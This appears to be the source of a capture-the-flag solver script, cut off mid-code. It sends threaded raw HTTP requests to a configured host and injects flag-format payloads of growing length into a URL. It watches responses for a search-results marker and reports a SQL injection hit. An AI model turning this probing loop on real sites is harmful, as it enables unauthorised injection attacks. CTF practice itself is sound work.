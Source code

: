 ```python
import socket
import json
import argparse
from time import sleep
import threading, queue

args = argparse.ArgumentParser()
args.add_argument('--config', '-c', default='config.json')
args.add_argument('--thread', '-t', type=int, default=5)
args.add_argument('--begin', '-b', type=int, default=1)
args.add_argument('--end', '-e', type=int, default=1000000)

args = args.parse_args()

config = json.load(open(args.config))
host = socket.gethostbyname(config.get('host', '0.0.0.0'))
port = config.get('port', 80)
url = config.get('url', "/")
method = config.get('method', 'GET')
version = config.get('version', 'HTTP/1.1')
header = config.get('header', {})
header['Host'] = config.get('host', f'0.0.0.0:{port}')
buffer = config.get('buffer', 1024)

dict2raw = lambda x: '\r\n'.join([f'{k}:{x[k]}' for k in x])+'\r\n'*2
payload = lambda n : f"CHH\x7b{'_'*n}\x7d"
check = lambda res : res.decode().count('\x53\x65\x61\x72\x63\x68\x20\x52\x65\x73\x75\x6c\x74\x73\x3a')

__tmpq = queue.Queue()
__step = (args.end - args.begin + 1) // args.thread
all_t = []

def main(a, b, q:queue.Queue):
    print(f"Start find the target from {a} to {b}")
    for i in range(a, b + 1):
        if not q.empty():
            print(f"{a} >> {b}: Turn off successful")
            return
        __sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        __sock.connect((host, port))
        __sock.send(f'{method} {url%(payload(i))} {version}\r\n{dict2raw(header)}'.encode())
        __recv = b''
        data = __sock.recv(buffer)
        while True:
            __recv += data
            if len(data) != buffer: break
            data = __sock.recv(buffer)
        if check(__recv):
            q.put(payload(i))
            print(f"{a} >> {b}: Explore a suitable query to showcase SQL Injection attack")
            return
        __sock.close()
        sleep(1)
    print(f"{a} >> {b}: No results found!")
    return

for i in range(args.begin, args.end, __step):
    all_t.append(threading.Thread(
        target = main,
        args=(
            i,
            min(args.end, i + __step - 1),
```